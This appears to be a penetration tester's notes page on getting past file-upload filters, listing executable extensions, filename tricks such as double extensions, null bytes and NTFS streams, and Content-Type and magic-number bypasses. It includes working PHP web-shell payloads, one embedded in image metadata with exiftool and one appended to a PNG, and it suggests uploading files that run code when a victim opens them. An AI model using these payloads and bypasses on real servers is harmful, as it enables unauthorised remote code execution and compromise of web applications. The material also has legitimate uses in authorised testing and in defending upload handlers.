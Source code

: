 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```

Ways to bypass file type upload filtering


# Guides

1. [File Upload | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology)
2. [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

## File Upload General Methodology

Other useful extensions:

- **PHP**: _.php_, _.php2_, _.php3_, ._php4_, ._php5_, ._php6_, ._php7_, .phps, ._phps_, ._pht_, ._phtm, .phtml_, ._pgif_, _.shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module_
- **Working in PHPv8**: _.php_, _.php4_, _.php5_, _.phtml_, _.module_, _.inc_, _.hphp_, _.ctp_
- **ASP**: _.asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, .cshtm, .cshtml, .rem, .soap, .vbhtm, .vbhtml, .asa, .cer, .shtml_
- **Jsp:** _.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action_
- **Coldfusion:** _.cfm, .cfml, .cfc, .dbm_
- **Flash**: _.swf_
- **Perl**: _.pl, .cgi_
- **Erlang Yaws Web Server**: _.yaws_

### Bypass file extensions checks

1. If they apply, the **check** the **previous extensions.** Also test them using some **uppercase letters**: _pHp, .pHP5, .PhAr ..._
    
2. _Check_ _**adding a valid extension before**_ _the execution extension (use previous extensions also):_

	- _file.png.php_
	- _file.png.Php5_
        
    
3. Try adding **special characters at the end.** You could use Burp to **bruteforce** all the **ascii** and **Unicode** characters. (_Note that you can also try to use the_ _**previously**_ _motioned_ _**extensions**_)
    
    - _file.php%20_
        
    - _file.php%0a_
        
    - _file.php%00_
        
    - _file.php%0d%0a_
        
    - _file.php/_
        
    - _file.php.\_
        
    - _file._
        
    - _file.php...._
        
    - _file.pHp5...._
        
    
4. Try to bypass the protections **tricking the extension parser** of the server-side with techniques like **doubling** the **extension** or **adding junk** data (**null** bytes) between extensions. _You can also use the_ _**previous extensions**_ _to prepare a better payload._
    
    - _file.png.php_
        
    - _file.png.pHp5_
        
    - _file.php#.png_
        
    - _file.php%00.png_
        
    - _file.php\x00.png_
        
    - _file.php%0a.png_
        
    - _file.php%0d%0a.png_
        
    - _file.phpJunk123png_
        
    
5. Add **another layer of extensions** to the previous check:
    
    - _file.png.jpg.php_
        
    - _file.php%00.png%00.jpg_
        
    
6. Try to put the **exec extension before the valid extension** and pray so the server is misconfigured. (useful to exploit Apache misconfigurations where anything with extension** _**.php**_**, but** not necessarily ending in .php** will execute code):
    
    - _ex: file.php.png_
        
    
7. Using **NTFS alternate data stream (ADS)** in **Windows**. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an **empty file with the forbidden extension** will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “**::$data**” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)
    
8. Try to break the filename limits. The valid extension gets cut off. And the malicious PHP gets left. AAA<--SNIP-->AAA.php, see [HTB: Falafel | 0xdf hacks stuff](https://0xdf.gitlab.io/2018/06/23/htb-falafel.html#code-execution---webshell)
    
    Copy
    
    ```
    # Linux maximum 255 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
    # Upload the file and check response how many characters it alllows. Let's say 236
    python -c 'print "A" * 232'
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    # Make the payload
    AAA<--SNIP 232 A-->AAA.php.png
    ```
    

### Bypass Content-Type, Magic Number, Compression & Resizing

- Bypass **Content-Type** checks by setting the **value** of the **Content-Type** **header** to: _image/png_ , _text/plain , application/octet-stream_
    
    1. Content-Type **wordlist**: [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)
    
- Bypass **magic number** check by adding at the beginning of the file the **bytes of a real image** (confuse the _file_ command). Or introduce the shell inside the **metadata**: `exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg` `\` or you could also **introduce the payload directly** in an image: `echo '<?php system($_REQUEST['cmd']); ?>' >> img.png`
    
- If **compressions is being added to your image**, for example using some standard PHP libraries like [PHP-GD](https://www.php.net/manual/fr/book.image.php), the previous techniques won't be useful it. However, you could use the **PLTE chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_plte_png.php)
        
    
- The web page cold also be **resizing** the **image**, using for example the PHP-GD functions `imagecopyresized` or `imagecopyresampled`. However, you could use the **IDAT chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_idat_png.php)
    
- Another technique to make a payload that **survives an image resizing**, using the PHP-GD function `thumbnailImage`. However, you could use the **tEXt chunk** [**technique defined here**](https://www.synacktiv.com/publications/persistent-php-payloads-in-pngs-how-to-inject-php-code-in-an-image-and-keep-it-there.html) to insert some text that will **survive compression**.
    
    - [**Github with the code**](https://github.com/synacktiv/astrolock/blob/main/payloads/generators/gen_tEXt_png.php)
    

### Other Tricks to check

- Find a vulnerability to **rename** the file already uploaded (to change the extension), see [File upload bypass | Hacker's Grimoire](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass#php-getimagesize)
    
- Find a **Local File Inclusion** vulnerability to execute the backdoor.
    
- **Possible Information disclosure**:
    
    1. Upload **several times** (and at the **same time**) the **same file** with the **same name**
        
    2. Upload a file with the **name** of a **file** or **folder** that **already exists**
        
    3. Uploading a file with **“.”, “..”, or “…” as its name**. For instance, in Apache in **Windows**, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
        
    4. Upload a file that may not be deleted easily such as **“…:.jpg”** in **NTFS**. (Windows)
        
    5. Upload a file in **Windows** with **invalid characters** such as `|<>*?”` in its name. (Windows)
        
    6. Upload a file in **Windows** using **reserved** (**forbidden**) **names** such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.
        
    
- Try also to **upload an executable** (.exe) or an **.html** (less suspicious) that **will execute code** when accidentally opened by victim.
    

### Special extension tricks

If you are trying to upload files to a **PHP server**, [take a look at the **.htaccess** trick to execute code](https://book.hacktricks.xyz/pentesting/pentesting-web/php-tricks-esp#code-execution-via-httaccess). If you are trying to upload files to an **ASP server**, [take a look at the **.config** trick to execute code](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-config-files).

The `.phar` files are like the `.jar` for java, but for php, and can be **used like a php file** (executing it with php, or including it inside a script...)

The `.inc` extension is sometimes used for php files that are only used to **import files**, so, at some point, someone could have allow **this extension to be executed**.